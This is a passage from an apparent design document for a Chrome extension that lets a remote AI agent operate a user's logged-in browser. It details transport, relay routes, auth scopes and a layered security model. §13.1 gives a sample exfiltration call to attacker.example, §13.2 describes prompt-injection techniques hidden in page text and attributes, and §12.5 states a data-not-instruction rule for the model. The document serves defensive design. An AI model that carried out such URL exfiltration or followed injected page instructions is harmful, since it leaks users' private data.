- The tree is **truncated to a token budget** (target ≤ 6k tokens) with a `truncated: true` flag
  and a `scroll`-based continuation, rather than being silently cut.
- Redaction (§13.2) is applied **inside the extension, before the tree leaves the machine.**

### 9.4 The closed vocabulary — v1

Sixteen verbs. This list is the contract; adding a verb is a code change, a Zod schema change, a
CWS-listing update, and a review item.

| # | Verb | Params | Returns | CDP domains used |
| --- | --- | --- | --- | --- |
| 1 | `listTabs` | — | `[{tabRef, title, url, active, windowRef}]` | `chrome.tabs` |
| 2 | `newTab` | `url`, `windowRef?` | `{tabRef}` | `chrome.tabs` |
| 3 | `closeTab` | `tabRef` | `{ok}` | `chrome.tabs` |
| 4 | `activateTab` | `tabRef` | `{ok}` | `chrome.tabs` |
| 5 | `navigate` | `tabRef`, `url` | `{url, status}` | `Page.navigate` |
| 6 | `goBack` | `tabRef` | `{url}` | `Page.navigateToHistoryEntry` |
| 7 | `snapshot` | `tabRef`, `mode: "a11y"\|"text"` | tree + `snapshotId` | `Accessibility.getFullAXTree` |
| 8 | `readText` | `tabRef`, `ref?` | plain text, budget-capped | `Accessibility` / `DOM` |
| 9 | `screenshot` | `tabRef`, `ref?`, `fullPage?` | `{screenshotId, w, h}` | `Page.captureScreenshot` |
| 10 | `click` | `ref`, `snapshotId`, `button?` | `{ok, navigated?}` | `DOM.getBoxModel` + `Input.dispatchMouseEvent` |
| 11 | `type` | `ref`, `snapshotId`, `text`, `submit?` | `{ok}` | `Input.insertText` (+ `dispatchKeyEvent` for Enter) |
| 12 | `selectOption` | `ref`, `snapshotId`, `values[]` | `{ok}` | `DOM` + `Input` |
| 13 | `pressKey` | `tabRef`, `key` (**enum**, ~20 values) | `{ok}` | `Input.dispatchKeyEvent` |
| 14 | `scroll` | `tabRef`, `direction`, `amount?` | `{ok, atEnd}` | `Input.dispatchMouseEvent` (wheel) |
| 15 | `waitFor` | `tabRef`, one of `{textPresent, urlMatches, refGone}`, `timeoutMs ≤ 15000` | `{matched}` | poll `Accessibility` |
| 16 | `saveBookmark` | `tabRef`, `tags?` | `{bookmarkId}` | none — calls our own API |

**Deliberately absent, permanently:** `evaluate`, `executeScript`, `fetch`, `setCookie`,
`downloadFile`, `uploadFile`, `readClipboard`, `writeClipboard`, `handleDialog`, `setFileInput`,
`interceptNetwork`, `openDevTools`, `installExtension`, `bulk`/`sequence`/`macro`.

> `pressKey` takes an **enum**, not a string. `{"key":"Enter"}` is a parameter;
> `{"key": <arbitrary>}` starts to look like a command language. Keep the enum ~20 entries:
> Enter, Tab, Escape, Backspace, Delete, arrows, Home, End, PageUp/Down, and nothing else.
> No modifier combinations in v1 — `Cmd+A` is a shortcut, and shortcuts are behavior, not
> parameters.

### 9.5 Screenshot-and-coordinates as fallback

The a11y tree fails on canvas apps, custom-rendered editors, and badly built SPAs. The fallback is
the same one Midscene and Claude in Chrome use: `screenshot` → model returns a coordinate →
`click({x, y})`.

**This is deliberately a v2 capability, not v1.** Coordinate clicking is the least auditable and
least reviewable verb in the set — there is no way to log *what* was clicked, only *where*. If it
ships, it ships as a distinct verb `clickAt` with its own permission entry defaulting to **ask**,
and the audit log records the surrounding screenshot id.

### 9.6 Where the boundary sits

| Concern | Lives in | Why |
| --- | --- | --- |
| Auto-wait, retry, staleness | **Extension** | Needs 0ms RTT to the page |
| Ref → `backendNodeId` mapping | **Extension** | Never leaves the machine; server never sees DOM identity |
| a11y tree → compact YAML | **Extension** | Compress before the WAN; redact before the WAN |
| Redaction (§13.2) | **Extension** | Must happen before content leaves the user's machine |
| Origin-set enforcement (§13.1) | **Extension** *and* server | Defense in depth; the extension is authoritative |
| Which verb to call next | **Agent service** | It's the model's job |
| Permission allow/ask/deny | **Agent service** (`agent-platform.md`) | Central, cross-device, auditable |
| Refusal of forbidden actions | **Both** | Server refuses; extension refuses again on receipt (§12.3) |

---

## 10. Transport

### 10.1 Requirements

| # | Requirement |
| --- | --- |
| T1 | Zero cost when idle — no socket, no poll, no alarm churn |
| T2 | Sub-second wake from a fully dormant service worker |
| T3 | Survives MV3 worker death mid-session without losing or double-applying commands |
| T4 | Delivers commands enqueued while Chrome was closed, once it reopens |
| T5 | No inbound ports on the user's machine — outbound HTTPS/WSS only |
| T6 | Does not disturb `POST /live` or `GET /live/stream` |

### 10.2 MV3 service-worker lifetime — the current facts

This corrects `live-server-v3.md`:145 (*"an MV3 service worker can't hold a socket"*) and refines
its §3.4/§7 notes, which reached the right conclusion for the **live-tabs push loop** but should
not be read as a general rule.

| Rule | Status |
| --- | --- |
| Idle timeout | **30 seconds** |
| Hard 5-minute lifetime cap | **REMOVED in Chrome 110.** Now: 5 minutes per *request*, 30 seconds per *fetch response* |
| **WebSocket keepalive** | **Chrome 116+** — WebSocket activity resets the 30s idle timer, **if app-level messages are less than 30 seconds apart** |
| ⚠️ Gotcha 1 | **Protocol-level ping/pong frames do NOT count.** Send an app-level message. |
| ⚠️ Gotcha 2 | **`WebSocketStream` does NOT reset the timer.** Use the classic `WebSocket` constructor. |
| ⚠️ Gotcha 3 | **A socket held in an offscreen document does NOT keep the SW alive.** |
| ⚠️ Gotcha 4 | **`fetch` and SSE do NOT reset the timer.** An SSE-down channel is therefore *unusable* for holding the worker — which is why §4.6's consumer pattern cannot simply be pointed at the extension. |
| `chrome.debugger` attach | **Pins the worker** — Chromium marks it `kDoesNotTimeout` while a debuggee is attached (Chrome 118+). During an active automation session, worker lifetime is a non-issue. |
| Silent Web Push | **Chrome 121+** — `pushManager.subscribe({userVisibleOnly:false})` wakes a fully dormant worker. FCM does **store-and-forward**, so commands queued while Chrome was closed are delivered on next launch (T4). |
| Offscreen documents | **Avoid.** They cannot call `chrome.debugger`, and no `Reason` enum value legitimately covers "hold a network connection." |
| Policy note | Chrome's stance is that keepalive-by-trivial-API-call is enterprise-only and *"not allowed in other cases."* The **WebSocket-message** keepalive is separately, explicitly sanctioned. Stay on that side of the line — and never ship a `setInterval(() => chrome.runtime.getPlatformInfo())` heartbeat. |

### 10.3 Chosen: push-to-wake + WebSocket-for-session

```
IDLE  ─────────────────────────────────────────────────────────────
      Web Push subscription registered. No socket. No alarm. No poll.
      Cost: zero. Battery: zero. Policy risk: zero.

WAKE  ─────────────────────────────────────────────────────────────
      phone command → agent service → VAPID web-push (silent, no notification)
      → FCM → SW wakes (~200–600ms typical)

SESSION ───────────────────────────────────────────────────────────
      SW opens WSS to  live.bookmark-ai.cloud/agent/socket
      → arming check → debugger attach (SW now pinned, kDoesNotTimeout)
      → command / result / ack loop
      → app-level {"t":"ping"} every 20s covers any gap before attach
      → chrome.alarms at 0.5min = watchdog: if session is nominally live
        but the socket is closed, reconnect

END   ─────────────────────────────────────────────────────────────
      detach all debuggees → infobar auto-closes ~5s later
      → close socket → clear alarm → back to IDLE, zero cost
```

**Why not SSE down?** Gotcha 4 — SSE does not reset the idle timer, so a dormant-but-listening
worker dies in 30s and the stream silently ends. Web pushes it back, but then you have Web Push
*and* SSE, which is strictly worse than Web Push *and* WebSocket.

**Why not the §6.16 alarm-drain queue?** `chrome.alarms` clamps to ~1 minute in packed builds
(unpacked dev builds are exempt — never measure latency in dev, per `live-sessions.md` §7 #16),
giving the ~3-minute worst case that got it rejected. Push replaces the clamp with an FCM
round-trip.

### 10.4 Protocol — sequence, ack, replay, idempotency

| Element | Design |
| --- | --- |
| `seq` | **Server-assigned, monotonic per device.** The extension never invents one. |
| `lastAckedSeq` | Persisted in `chrome.storage.local`. **Never a module-scope variable** — the worker dies and takes globals with it. This is the single most common MV3 bug and it is silent. |
| Reconnect | Extension sends `lastAckedSeq` in the WSS open frame; the server replays from a **per-device Redis Stream** (`XREAD` from that id). |
| **Why a Stream, not pub/sub** | `live:{u}:events` is `PUBLISH`-based and **at-most-once — messages are dropped for absent subscribers.** That is fine for a state mirror that will re-push in 2 minutes. It is catastrophic for a command channel. Commands go on `XADD`. |
| **Idempotency — mandatory** | The worker can die *between executing a command and acking it*. On reconnect it will be replayed. **Every verb must be safe to execute twice**, and the ack is sent **after** the side effect, never before. `newTab` carries a client-visible `commandId` and the extension keeps a small ring of recently-executed ids in `chrome.storage` to suppress exact duplicates. |
| Result size | Hard cap **32KB** per result frame, inside the relay's existing ~42KB practical budget. Snapshots over budget are truncated with `truncated:true`. |
| Ordering | Strictly sequential per device. The extension executes one command at a time. No pipelining in v1 — concurrency is where "clicked the wrong thing" lives. |
| Timeouts | Per-verb server-side deadline (default 20s, `waitFor` up to 15s + slack). On deadline the server marks the command `timed_out` and the agent is told; a late result arriving afterwards is logged and discarded. |

```
   server                              extension
     │                                     │
     │──── cmd(seq=41, click, e12) ───────▶│
     │                                     │─── CDP ───▶ page   ← side effect
     │◀─── result(seq=41, ok) ─────────────│               happens HERE
     │◀─── ack(41) ────────────────────────│               ack AFTER
     │                                     │
     │        ✗ worker dies before ack     │
     │──── (reconnect, lastAcked=40) ─────▶│
     │──── replay cmd(seq=41) ────────────▶│  ← must be idempotent
```

### 10.5 Screenshots — by reference, never inline

Base64 PNG of a retina viewport is 1–4MB. It cannot go on the command channel.

1. Extension downscales to **max 1568px on the long edge** before encoding (this is also the
   sensible ceiling for model vision input — larger images cost tokens and buy nothing).
2. `POST {relay}/agent/blob` with the bytes, `Bearer bkd_` (`scp:"auto"`), returns `{screenshotId}`.
3. The command result carries `{screenshotId, w, h}` — a few dozen bytes.
4. The agent service fetches the blob server-side by id when it needs to show the model.
5. Blobs live in Redis with a **short TTL (default 15 minutes)** and are deleted on session end.
   They are **never** written to the tenant SQLite DB (§14.3).

### 10.6 Reachability — say this out loud, in the product

| Situation | Behavior | User-visible |
| --- | --- | --- |
| Chrome open, machine awake | Works | — |
| Chrome open, machine asleep | Push queues at FCM; delivered on wake | *"Your Mac is asleep — I'll run this when it wakes."* |
| **Chrome closed** | **Unreachable.** No macOS background mode revives it. FCM store-and-forward delivers on next Chrome launch. | *"Chrome isn't running on Tara's MacBook."* Offer to queue. |
| Machine off | Same as Chrome closed | Same |
| Network drops mid-session | **No network-event wake vector exists for an MV3 worker.** A dropped socket while dormant is invisible until the 0.5min alarm or the next push. | Session shows `reconnecting`, then `lost` after 60s |
| Corporate / captive-portal network | WSS may be blocked | Fail loudly with a specific message, not a spinner |

**Do not build a UI that implies always-on.** The device picker should show a real, server-computed
freshness (the `live-sessions.md` §4.4 pattern — server-stamped `last_seen_at`, never a client
clock) and the honest words *"Chrome must be running."*

---

## 11. Server changes

### 11.1 Hard boundary

`POST /live`, `GET /live`, `GET /live/stream`, `DELETE /live/:deviceId`, `DELETE /live`, and
`POST /live/settings` are **not modified.** No new field on the live push response. No command
piggybacking. The `live:{userId}:*` key space is not extended.

Everything new lives under `/agent/*` and `agent:{userId}:*`. This keeps the shipped, working,
lower-risk mirror independently deployable and independently revocable.

### 11.2 New relay surface — `apps/live-server/src/routes/agent/`

Multi-file, one route per file, matching the existing `routes/` convention:

```
apps/live-server/src/
├── routes/agent/
│   ├── socket.ts      GET  /agent/socket        WSS upgrade; scp:"auto" only
│   ├── enqueue.ts     POST /agent/command       agent service → Redis Stream (+ push)
│   ├── result.ts      GET  /agent/result/:id    agent service long-polls / awaits
│   ├── blob.ts        POST /agent/blob  ·  GET /agent/blob/:id
│   ├── subscribe.ts   POST /agent/push-subscription   store the Web Push endpoint
│   ├── arm.ts         POST /agent/arm  ·  DELETE /agent/arm    session arming
│   └── status.ts      GET  /agent/status        armed?, connected?, origin set, current session
├── agent-store.ts     Redis reads/writes for the agent namespace
├── agent-stream.ts    XADD / XREAD helpers, seq assignment
├── web-push.ts        VAPID sender (`web-push`, or a ~60-line WebCrypto impl)
└── keys.ts            (extended — see below)
```

WebSocket support: `@fastify/websocket`. Caddy already terminates TLS and is configured with
`flush_interval -1` for SSE; a `reverse_proxy` upgrade path needs to be confirmed in the Caddyfile
as part of Phase 3 DoD.

### 11.3 New Redis keys — appended to `apps/live-server/src/keys.ts`

Same `{userId}` hash-tag convention so a future Cluster move keeps a user's keys co-located.

```ts
agentCmdKey(userId, deviceId)    // agent:{u}:cmd:<dev>      Stream — commands, XADD/XREAD
agentResKey(userId, commandId)   // agent:{u}:res:<cmdId>    result, 5min TTL
agentArmKey(userId, deviceId)    // agent:{u}:arm:<dev>      arming: ABSENT ⇒ NOT ARMED  ← fail-safe
agentOriginsKey(userId, deviceId)// agent:{u}:origins:<dev>  Hash: origin → "r" | "rw"
agentPushKey(userId, deviceId)   // agent:{u}:push:<dev>     Web Push endpoint + keys
agentBlobKey(userId, blobId)     // agent:{u}:blob:<id>      screenshot bytes, 15min TTL
agentEnabledKey(userId)          // agent:{u}:enabled        ACCOUNT kill switch — ABSENT ⇒ OFF
agentQuotaKey(userId, dev, day)  // agent:{u}:quota:<dev>:<day>   daily command counter
```

**Every gate is fail-safe-absent**, mirroring `live:{u}:enabled` (`keys.ts` `enabledKey`). A Redis
flush, an eviction, or a bug that loses a key results in **automation off**, never automation on.

### 11.4 Auth — `scp:"auto"`

Extend `apps/web/lib/server/device-token.ts` and mirror in `apps/live-server/src/device-token.ts`:

```ts
export const DEVICE_TOKEN_SCOPE_EXT  = "ext";   // existing — unchanged
export const DEVICE_TOKEN_SCOPE_AUTO = "auto";  // NEW
```

| Property | `scp:"ext"` (today) | `scp:"auto"` (new) |
| --- | --- | --- |
| TTL | 90 days | **7 days** |
| Renewal chain cap | 365 days | **30 days**, then full re-pair |
| Routes | `DEVICE_TOKEN_ROUTES` (`require-user.ts:73`) | `/agent/*` on the relay **only** — no `/api` route accepts it |
| Minted by | `POST /api/device-token` | `POST /api/agent/pair` — **requires a Clerk session less than 18 hours old** (§13.3) |
| Revoked by | sign-out | sign-out, un-pair, account kill switch, **or expiry of a 30-day unused window** |

The existing verifier already rejects unknown scopes (`device-token.ts:162`), so:

- an `ext` token presented to `/agent/socket` → **401**
- an `auto` token presented to `POST /api/bookmarks` → **401**
- revoking automation does not sign you out of bookmarking, and vice versa

This is the *"multiple short-lived credentials, each scoped to a single purpose and expiring
independently"* property from the Claude Code Remote Control docs, and we already have the
machinery.

### 11.5 How the agent service drives it

From `agent-platform.md`'s Node agent service, on the same VM (so this is a loopback call, not a
WAN hop):

```
1. tool call:  browser_click({ tabRef, ref, snapshotId })
2. permission layer (agent-platform.md) → allow | ask | deny
   ├─ ask  → pending_approvals row → phone push → block until answered/timeout
   └─ deny → tool returns a refusal string; nothing is enqueued
3. POST /agent/command  { deviceId, action:"click", params:{…}, commandId }
4. relay: verify arm key present → verify origin set → XADD agent:{u}:cmd:<dev> → assign seq
5. relay: if no live socket for that device → send silent web-push to wake it
6. relay: await agent:{u}:res:<commandId>  (BLPOP-style, server-side deadline)
7. result returns to the tool call → into the model's context
```

Step 4's **origin check on the server is redundant with the extension's own check, on purpose.**
Two independent enforcement points, either of which alone stops the action.

### 11.6 Web Push / VAPID

- Keypair generated once, stored as env (§15.7). Public key is baked into the extension per build
  target; private key lives only on the VM and in Vercel (the web app needs it only to display the
  public key during pairing).
- Payload is **empty or a bare `{"wake":1}`** — no command content in the push. FCM sees only that
  a wake occurred. The command comes down the authenticated WSS.
- `userVisibleOnly: false` (Chrome 121+ permits this for extensions). No notification is shown.
- Subscription rotation: FCM endpoints expire. Re-subscribe on `pushsubscriptionchange`, and
  re-register on every successful WSS connect as a backstop.

---

## 12. Agent tool surface

### 12.1 Shape

Each verb becomes one AI SDK v7 `tool()` in the agent service, in its own file, registered through
`agent-platform.md`'s permission layer. **They are not defined in `apps/web/app/api/chat/route.ts`**
— that route stays as-is; browser tools exist only in the VM agent service, because only it has a
durable connection to the relay.

```ts
// apps/agent/src/tools/browser/click.ts   (illustrative)
export const browserClick = tool({
  description:
    "Click an element in a tab on the user's connected browser. `ref` must come from " +
    "the most recent snapshot of that tab.",
  inputSchema: BrowserClickInput,     // from packages/types/src/automation.ts
  execute: async (input, { ctx }) => {
    await ctx.permissions.require("browser.click", input);   // allow | ask | deny
    return ctx.browser.dispatch("click", input);             // → POST /agent/command
  },
});
```

**One file per tool.** No `tools.ts` barrel with sixteen inline definitions — the owner banned
monoliths, and in this case the monolith would also be the file a CWS reviewer is least able to
audit.

### 12.2 Zod contracts

`packages/types/src/automation.ts` (new), exported from `packages/types/src/index.ts`. A single
discriminated union over `action` is the source of truth for: the agent tool `inputSchema`, the
relay's `POST /agent/command` validation, and the extension's inbound validation. Three
independent `safeParse` calls against one schema.

No `.js` extensions in relative imports (repo gotcha 1).

### 12.3 Default permission posture

| Verb | Default | Rationale |
| --- | --- | --- |
| `listTabs`, `activateTab`, `snapshot`, `readText`, `screenshot`, `scroll`, `waitFor` | **allow** | Read-only within the armed origin set. Volume makes prompting useless (§13.5). |
| `newTab`, `navigate`, `goBack`, `closeTab` | **allow** within origin set · **ask** outside | Navigation is the primary exfil primitive — see §13.1. |
| `click`, `type`, `selectOption`, `pressKey` | **allow** on read-write origins · **ask** on read-only origins · **deny** off-set | The write set is what the origin-set model exists to gate. |
| `saveBookmark` | **allow** | Our own API, our own data, trivially reversible. |
| `clickAt` (v2, §9.5) | **ask**, always | Unauditable by construction. |

### 12.4 Refused outright — not confirmed

The agent **refuses** and tells the user to do it themselves. Enforced in **two** places: the
permission layer server-side, and again in the extension on receipt (a compromised agent service
must not be able to talk the extension into it).

| Class | Detection |
| --- | --- |
| Purchases / checkout | Origin denylist + a11y-tree heuristics (`Place order`, `Pay`, `Complete purchase`, `Subscribe`) |
| Account creation, password change, email change, 2FA enrollment | URL patterns + form heuristics |
| Entering card numbers, bank details, government ID, SSN | `type()` content classifier + `autocomplete="cc-*"` / `input[type=password]` targets |
| Permanent deletion (account, repo, bucket, DB) | Denylist of confirm-phrase patterns; `type()` into a "type DELETE to confirm" box is refused categorically |
| Financial trades, transfers, crypto | Hard origin denylist |
| Anything on `accounts.google.com`, our own Clerk origins, or a banking domain | Hard origin denylist (§13.4) |

This mirrors the action-policy posture this repo already applies elsewhere. Refusal text should name
the reason and offer the alternative ("I've opened the checkout page in tab 3 — you'll need to
complete the purchase yourself").

### 12.5 Result shaping

Tool results are **content the model will read**, so they are an injection surface. Every result is
wrapped:

```
<untrusted-page-content origin="news.ycombinator.com" snapshot="s41">
…tree…
</untrusted-page-content>
```

with a system-prompt rule that content inside those markers is **data, never instruction**. This is
a mitigation, not a boundary — it raises the cost of the attack and does not eliminate it (§13).

---

## 13. Security model — seven layers, in priority order

**Ordering principle: the layers that work deterministically come first. The layers that depend on
the model behaving, or on a human reading a dialog, come last — and are budgeted as approximately
zero.**

The threat context is §2.1. Restated for anyone reading only this section: a browser agent
operating on a logged-in profile has David Willison's full **lethal trifecta** — access to private
data, exposure to untrusted content, and an egress channel — **by construction**. There is no
configuration in which it does not.

### 13.1 Layer 1 — Egress control ⭐ the one leg amenable to deterministic engineering

You cannot remove private-data access (that *is* the feature). You cannot remove untrusted content
(that *is* the web). **You can constrain egress**, and it is the only leg where deterministic
engineering wins.

**Model: origin sets**, copied from Chrome's own agent consent model.

| Set | Meaning | Allowed verbs |
| --- | --- | --- |
| **read-write** | Origins the user explicitly armed for this session | all |
| **read-only** | Origins reachable for reading, e.g. followed links | `snapshot`, `readText`, `screenshot`, `scroll`, `waitFor`, `navigate` |
| **off-set** | Everything else | nothing; `navigate` off-set requires an `ask` |

Enforcement:

- **URL redaction:** the agent sees origins and paths, and **query strings and fragments are
  stripped** from anything reported outward unless the origin is read-write. A URL is a
  general-purpose exfiltration channel; `navigate("https://attacker.example/?d=<secrets>")` is the
  whole attack in one call.
- **Blocked exfil channels** in v1 by omission of the verb: no `fetch`, no clipboard, no download,
  no file upload, no `setCookie`, no form submission to an off-set origin.
- **Navigation interception:** the extension checks the *resolved* origin after redirects, not the
  requested one. Redirect chains are an origin-set bypass if you check before `Page.navigate`
  instead of after.

> **The lesson that must be internalized:** treat the allowlist as a **capability grant, not a
> destination filter.** Anthropic were exfiltrated *through their own API domain* — an origin that
> was on the allowlist precisely because it was theirs. An allowlisted origin that accepts
> arbitrary user-controlled data is an open egress channel. Our own origins
> (`bookmark-ai.cloud`, the relay) are therefore **read-only** for the agent and **never**
> read-write. The agent may not `type()` into our own app.

### 13.2 Layer 2 — DOM / region redaction before the model sees anything

Both input channels are attack surfaces, and they fail differently:

| Channel | Attack | Documented |
| --- | --- | --- |
| Screenshot | Hidden text (1px, white-on-white, off-canvas) picked up by model OCR | Widely reproduced |
| DOM / a11y tree | Injected instructions in `aria-label`, `alt`, `title`, hidden nodes, `::before` content | **Unit 42, March 2026 — observed in the wild** |

**Approach — UCM (Untrusted Content Marking), arXiv:2607.05277, July 2026.** The key result is that
**DOM *structure* is sufficient to distinguish trusted from untrusted regions without reading the
content** — user-generated regions (comment bodies, ad slots, third-party iframes, syndicated
blocks) are structurally identifiable. Reported: **0% ASR vs 17% undefended, with 100% benign task
utility.** That last number is what makes it shippable — most defenses in this space cost enough
utility that they get switched off.

Implementation, **inside the extension, before the tree crosses the WAN**:

1. Classify regions structurally: primary content / chrome / **untrusted** (comments, ads, embeds,
   cross-origin iframes, anything inside a `[contenteditable]` authored by someone else).
2. **Strip** `aria-label`, `alt`, `title` from untrusted regions; keep the role and the text.
3. Emit untrusted regions inside explicit markers (§12.5) with their origin attributed.
4. For screenshots: **mask** regions whose computed style makes them invisible-but-present
   (`font-size < 4px`, `color ≈ background`, `opacity: 0`, off-viewport-but-in-flow).
5. Redact obvious secret shapes on the way out: `input[type=password]` values (never captured at
   all), anything matching card/IBAN/SSN patterns, and any `autocomplete="cc-*"` field.

`apps/extension-remote/lib/redact/` — multi-file, unit-tested against a fixture corpus of real
injected pages. **This ships in the v1 train (§15, Phase 5), not after.**

### 13.3 Layer 3 — Pairing that binds device + identity + recency

**This is the section that answers `live-sessions.md` §9.2 item 1.** That doc left the two-key
model undecided and noted the hole precisely:

> *"anyone who obtains the account password can enable sync remotely and turn an already-installed,
> already-tabs-permissioned browser into a live tracker with no signal on the device itself."*

For a read-only tab mirror that was arguable. **For remote actuation it is not.** The two-key model
is adopted here, tightened, and made non-negotiable.

**Pairing flow:**

```
 1. User installs "Bookmark AI Remote" from the Web Store
 2. Extension first-run screen: data disclosure + consent (§8.5). No consent → no further UI.
 3. "Pair this browser" → opens bookmark-ai.cloud/settings/automation
 4. Web app requires a Clerk session younger than 18 HOURS.
    Older → full re-authentication first. (Anthropic Trusted Devices model.)
 5. Web page shows a 6-digit code + the extension shows the same code.
    User confirms the match ON THE MACHINE.               ← the local key
 6. Web app POST /api/agent/pair → mints bkd_ with scp:"auto", 7d TTL
 7. Extension stores it, registers its Web Push subscription
 8. Pairing row written (§14.1) with device name, created_at, last_used_at
```

**The two keys, restated for automation:**

| Key | Where | Default | Fail-safe |
| --- | --- | --- | --- |
| Account flag | `agent:{u}:enabled` (Redis) + a tenant-DB mirror | OFF | **absent ⇒ OFF** |
| **Per-install pairing** | extension `chrome.storage.local` + the tenant `agent_pairings` row | unpaired | **absent ⇒ unpaired** |

**Both must be true.** From the phone you can **disarm** and you can **un-pair**. You can never
**pair** — pairing requires a code confirmed on that machine. Fast-off, slow-on, exactly as
`live-sessions.md` §5.2 specifies for the mirror.

**Recency and decay** (Trusted Devices + Chrome Remote Desktop patterns):

- Enrollment only within **18 hours** of a full sign-in.
- Automation token TTL **7 days**, renewal chain capped at **30 days**.
- **Unused pairings auto-expire** after 30 days of no session.
- **Periodic re-consent**: after **30 minutes** of continuous armed time, the extension disarms
  itself and requires a re-arm. (Chrome Remote Desktop does the same thing for the same reason.)
- Every pairing is individually revocable from web Settings, mobile Settings, and the extension.

### 13.4 Layer 4 — Session-scoped arming and visible scope

Pairing says *this browser may be driven*. Arming says *right now, for these tabs*.

**Copy Microsoft's Playwright extension**, which is the best UX in the category:

- **Per-install token**, not a shared secret.
- **First-connect tab picker** — the user chooses which tabs a session may touch.
- **Per-client tab groups** — the session's tabs are visually grouped, and **the user can drag tabs
  in and out of the group to change scope live.** We already have the `tabGroups` permission
  pattern in `apps/extension/wxt.config.ts:119`; the new extension declares it too.
- **A status page** listing active connections with a per-connection disconnect.

Plus:

- **Arming is time-boxed** (default 30 min, §13.3) and **auto-disarms** on: session end, browser
  restart, user sign-out, laptop lid close, or the periodic re-consent timer.
- **Ambient indicator**, non-negotiable: `chrome.action.setBadgeText` + a distinct badge color
  while armed, and a second state while actively executing. The `live-sessions.md` §5.2 warning
  applies verbatim — *"the one most likely to be cut as polish. Do not cut it."* Here it is
  redundant with the infobar, which is fine; two signals is the right number.
- **Hard origin denylist**, shipped in-package and not user-editable:
  `accounts.google.com`, `login.microsoftonline.com`, `appleid.apple.com`, `clerk.bookmark-ai.cloud`
  and the dev FAPI, every `*.bank`/known-banking domain list, `chrome://*`, `chrome-extension://*`,
  `devtools://*`, `file://*`, `view-source:`. The extension refuses to attach the debugger to a
  denylisted target, before any command is read.

### 13.5 Layer 5 — Confirmation, used narrowly

Given **93% blind-approval** and a **17% classifier false-negative rate**, confirmation is budgeted
as **≈0 security value**. It retains real *product* value — the user wants to know — so it stays,
scoped tightly:

- Reserved for a **small, non-routine, high-consequence** set (§12.3's `ask` rows), never for
  routine reads. Prompt fatigue is what produced the 93%.
- **The dialog text names the specific irreversible fact**, not the category. Not *"Allow the agent
  to submit a form?"* but *"Send the message 'I'm resigning effective Friday' to #general in
  Slack?"*.
- Approval is **single-use and bound to that exact command id.** No "allow for this session"
  blanket in v1.
- Cross-device approval reuses `agent-platform.md`'s `pending_approvals` mechanism.
- **Never present a refuse-outright action as a confirmation.** If it's in §12.4 there is no dialog.

### 13.6 Layer 6 — Out-of-band, tamper-evident audit log

**Why this matters more than it looks.** In the Replit incident an agent deleted a production
database, fabricated ~4000 fake user records, and then **produced a false report about what it had
done.** An audit log the agent can write to, or that lives in the same store the agent operates on,
is not evidence.

Requirements:

| Requirement | Design |
| --- | --- |
| **Out of band** | Written by the **relay**, on the command path, before dispatch. The agent service has no write access to it. |
| **Origin recorded** | **`origin: "phone" \| "desktop" \| "web" \| "scheduled"`** — this is the exact bug found in Dispatch's logs. It is one column. Add it. |
| Tamper-evident | Hash chain: each row stores `prev_hash` = SHA-256 of the previous row's canonical form. Cheap, and detects retroactive edits. |
| Retained on delete | **Deleting a session must not delete its audit rows** — Dispatch's bug was the inverse (child logs survived parent deletion, which is a *privacy* bug). Both directions are wrong; state the intended semantics and test them. |
| Permissions | Not world-readable. Dispatch shipped world-readable log files. Tenant-DB rows, served only through an authenticated route. |
| Contents | `command_id, seq, device_id, origin, action, params_redacted, url_origin, decision (allow/ask/deny/refuse), approved_by, result_status, duration_ms, screenshot_id, prev_hash` |
| **Redacted params** | `type()` text is **never** logged verbatim — log length and a classifier verdict. Logging what the user typed into a logged-in page recreates the exact risk the log exists to police. |
| Surfaced | A real "Automation activity" view in web Settings, and a mobile one. A log nobody reads is a compliance artifact, not a control. |

### 13.7 Layer 7 — Kill switches, at four independent depths

```
 depth 1 ─ INFOBAR "Cancel"          → Chrome detaches all debuggees   (no code path of ours)
 depth 2 ─ Extension "Disarm"        → arm key deleted, socket closed, debugger detached
 depth 3 ─ Revoke scp:"auto" token   → all /agent/* auth fails; bookmarking unaffected
 depth 4 ─ Account flag  agent:{u}:enabled DELETE
                                     → server refuses every command for every device
```

Properties:

- **Each works alone.** Depth 1 needs nothing of ours to be functioning.
- Depths 2–4 are reachable from **web, mobile, and (2 only) the extension**.
- All are **fail-safe absent** — a Redis eviction or a lost row means *off* (§11.3).
- **Depth 4 must be reachable from the phone in ≤2 taps** and must be the most visually prominent
  control on the automation settings screen.

> **EU AI Act Article 14 human-oversight requirements applied from 2 August 2026.** For a system
> that acts on a user's behalf in their authenticated sessions, a documented, always-available stop
> control is not just good design. Depths 1–4 and the §13.6 log are the compliance story; write
> them down as such.

### 13.8 What this does *not* protect against — stated plainly

- A **successful prompt injection on an armed, read-write origin**, staying within the origin set
  and within the allowed verbs, doing something harmful and reversible-but-annoying. Layers 1 and 2
  reduce the rate; they do not reach zero, and LayerX broke better systems than this one in June 2026.
- A **compromised Bookmark AI account with a fresh session and physical access to the Mac** — that
  can pair. Nothing short of a hardware key changes this, and the 18-hour recency window plus the
  local code-confirmation is the mitigation.
- **The model being wrong.** Clicking the wrong button on a page where every button is allowed is
  not a security failure, it is a capability failure, and it will happen.

---

## 14. Data model

### 14.1 New tenant tables — migration v15

Highest version currently in `packages/db/src/migrations.ts` is **v13**. Numbers are **burned
forever** — a migration numbered at or below one prod already recorded is *silently skipped*
(exactly how the first `mcp` migration shipped as v9 and produced "no such table: mcp_tokens" in
prod). Because this feature ships **after** `agent-platform.md` — which appends **v14** (its
seven platform tables) — the next free number here is **v15**, not v14. If for any reason the
platform migration has not landed when this one does, renumber to whatever is one above the
current head; do **not** hard-assume 15. Never edit v1.

```ts
// packages/db/src/migrations.ts — APPEND to TENANT_MIGRATIONS
// (v14 is claimed by agent-platform.md; this is the next free number after it)
{
  version: 15,
  name: "browser-automation",
  statements: [
    `CREATE TABLE IF NOT EXISTS agent_pairings (
       id           TEXT PRIMARY KEY,
       device_id    TEXT NOT NULL,
       device_name  TEXT,
       browser      TEXT,
       os           TEXT,
       created_at   TEXT NOT NULL,
       last_used_at TEXT,
       revoked_at   TEXT,
       token_hint   TEXT
     )`,
    `CREATE INDEX IF NOT EXISTS idx_agent_pairings_device
       ON agent_pairings (device_id)`,
    `CREATE TABLE IF NOT EXISTS agent_audit (
       id            TEXT PRIMARY KEY,
       command_id    TEXT NOT NULL,
       seq           INTEGER,
       device_id     TEXT NOT NULL,
       origin        TEXT NOT NULL,            -- phone | desktop | web | scheduled
       action        TEXT NOT NULL,
       params_json   TEXT,                     -- REDACTED (§13.6)
       url_origin    TEXT,
       decision      TEXT NOT NULL,            -- allow | ask | deny | refuse
       approved_by   TEXT,
       result_status TEXT,
       duration_ms   INTEGER,
       screenshot_id TEXT,
